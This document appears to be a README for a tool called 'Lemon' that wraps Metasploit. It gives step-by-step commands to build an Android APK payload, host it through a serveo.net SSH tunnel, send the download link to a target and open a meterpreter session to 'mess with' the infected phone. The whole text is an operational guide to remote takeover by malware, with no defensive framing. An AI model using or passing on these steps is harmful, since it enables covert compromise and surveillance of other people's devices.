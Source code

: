 .Requirements :-
1. Metasploit-Framework
2.git

Installation :-
1.Install git by typing "pkg install git"
2.Download Lemon by typing "git clone https://github.com/Lemon-Hacking/Lemon
3.Install it by executing "cd $HOME/Lemon && sh Install" without quotes.
How to use :-

1.Run php by typing "sh php"

2.Run ssh by typing "sh ssh" and copy the link you get.   [NEW SESSION]

3.Forward TCP connections by typing "sh payload", choose a port of your own and the payload's name, it will take a little time to create and upload the payload with the specified port and name.

4.Type "sh Handler" and wait for the Handler to start, then type "set LPORT xxxx" Put your port instead of xxxx, and finally type "run"   [NEW SESSION]

5.Now, put your payload's name after the link that you got after running "sh ssh" [For Example : lente.serveo.net/Name.apk] and send the link to the target Android, once the virus gets installed in the target device, you will see a meterpreter session opening, wait for a few seconds.
  Type "?" and press enter. Now you can mess with the Android device using the commnands listed.
